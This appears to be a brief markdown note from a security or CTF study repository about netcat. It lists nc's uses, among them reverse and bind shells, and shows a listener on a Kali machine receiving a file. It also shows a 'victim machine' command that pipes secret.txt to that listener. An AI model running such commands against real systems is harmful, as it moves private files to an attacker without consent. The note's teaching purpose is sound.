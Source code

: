 # nc

```
Description: Netcat ("Swiss Army knife" of networking) can:
    Connect to TCP or UDP ports
    Create reverse or bind shells (great for CTFs)
    Transfer files
    Listen for incoming connections (like a basic server)
    Scan ports (basic)

On Kali Linux (Receiver Machine):

nc -l -p 1234 > received.txt
```

# Victim Machine (SendBack Machine)
```
nc -w 3 192.168.0.1 1234 < secret.txt
```

## Back to README.md
[BACK](/README.md)